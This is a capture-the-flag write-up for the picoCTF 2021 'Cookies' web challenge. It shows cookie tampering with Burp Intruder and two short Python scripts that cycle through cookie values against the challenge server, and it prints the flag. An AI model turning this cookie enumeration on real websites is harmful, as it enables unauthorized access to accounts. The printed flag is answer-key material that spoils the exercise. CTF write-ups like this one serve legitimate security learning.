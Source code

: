### Cookies

Author: madStacks
#easy #web_exploitation #picoCTF2021 
#### Description

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:64944/](http://mercury.picoctf.net:64944/)

##### Solution:
how to find cookies
![Cookies/web\_browser\_cookies.png](Cookies/web_browser_cookies.png)

change the value of cookies
![Cookies/changeing\_cookies\_value.png](Cookies/changeing_cookies_value.png)

now use burpsute to get the flag 
position setting
![Cookies/intruder\_attacking\_type.png](Cookies/intruder_attacking_type.png)

set payload to numbers
![Cookies/attacking\_payload.png](Cookies/attacking_payload.png)

and add grep match picoCTF{  to indentify flag
![Cookies/grep\_match\_setting.png](Cookies/grep_match_setting.png)
here is flag

![Cookies/Cookies/flag.png](flag.png)

flag is `picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}`
python code to get flag

```python
import requests

# Loop through a range of cookie values
for i in range(25):
    # Setting a different cookie value each time
    headers = {'Cookie': f'name={i}'}
    
    # Sending the GET request
    response = requests.get('http://mercury.picoctf.net:64944/check', headers=headers)
    
    # Printing the result for each cookie value
    print(f"Trying cookie name={i}")
    print(response.text)

    # Break the loop if the flag is found
    if 'picoCTF' in response.text:
        print("Flag found!")
        break
```

another python code
```python
#!/bin/python3
import requests

for i in range(25):
    # Show the current cookie being used
    print(f"Trying cookie value: {i}")
    
    cookie = 'name={}'.format(i)
    print(cookie)
    headers = {'Cookie': cookie}
    print(headers)
    # Make the request to the server
    r = requests.get('http://mercury.picoctf.net:64944/check', headers=headers)
    
    # Check if the response contains the flag
    if r.status_code == 200 and 'picoCTF' in r.text:
        print("Flag found!")
        print(r.text)
        break  # Exit loop once flag is found
    else:
        print(f"Status: {r.status_code}, No flag yet.")

```